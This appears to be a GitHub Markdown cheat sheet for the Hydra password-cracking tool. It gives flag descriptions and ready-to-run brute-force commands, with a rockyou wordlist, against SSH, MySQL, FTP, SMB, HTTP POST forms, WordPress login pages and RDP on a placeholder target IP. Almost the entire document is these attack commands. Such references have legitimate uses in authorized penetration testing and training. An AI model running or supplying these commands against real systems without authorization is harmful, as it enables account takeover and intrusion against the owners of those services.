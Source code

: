 # hydra Cheat sheet

**Syntax:**

```
hydra [option] ip
```

<details>
<summary>Useful Flags </summary>

|Flags |Description|
|-----|---------|
|-h |see the help menu|
|-l |\<LOGIN>: Pass single username/login|
|-L |\<FILE>: Pass multiple usernames/logins|
|-p |\<LOGIN>: Pass single known password|
|-P |\<FILE>: Pass a password list or wordlist (ex.: rockyou.txt)|
|-s |\<PORT>: Use custom port|
|-f |Exit as soon as at least one a login and a password combination is found|
|-R |Restore previous session (if crashed/aborted)|

</details>



<details>
<summary>SSH </summary>

## Bruteforce ssh

```
hydra -f -l user -P /usr/share/wordlists/rockyou.txt $IP -t 4 ssh
```
</details>


<details>
<summary>Mysql </summary>

## Bruteforce MySQL credentials

```
hydra -f -l user -P /usr/share/wordlists/rockyou.txt $IP mysql
```
</details>

<details>
<summary>FTP </summary>

## Bruteforce FTP credentials

```
hydra -f -l user -P /usr/share/wordlists/rockyou.txt $IP ftp
```
</details>





<details>
<summary>SMB </summary>

## Bruteforce SMB credentials

```
hydra -f -l user -P /usr/share/wordlists/rockyou.txt $IP smb
```
</details>



<details>
<summary>HTTP Post Form </summary>

## Bruteforce HTTP Post 

```
hydra -l user -P /usr/share/wordlists/rockyou.txt $IP http-post-form "<Login Page>:<Request Body>:<Error Message>"
```

**Example:**
```
hydra -l user -P /usr/share/wordlists/rockyou.txt 127.0.0.1 http-post-form "/admin.php:log=^USER^&pwd=^PASS^:invalid passwod"
```
</details>


<details>
<summary>Wordpress </summary>

## Bruteforce Wordpress credentials 

```
hydra -f -l user -P /usr/share/wordlists/rockyou.txt $IP -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
```

</details>

<details>
<summary>RDP </summary>

## Bruteforce RDP


```
hydra -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$IP
```

</details>


